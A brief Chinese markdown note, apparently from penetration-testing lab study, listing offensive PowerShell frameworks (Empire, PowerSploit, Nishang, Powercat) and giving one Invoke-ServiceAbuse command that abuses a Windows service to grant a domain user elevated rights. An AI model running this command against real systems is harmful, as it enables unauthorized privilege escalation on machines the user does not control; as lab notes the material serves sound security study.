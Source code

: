 # powershell工具

## powershell常用的工具

- Empire

- PowerSploit

- Nishang

- Powercat





Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student41'
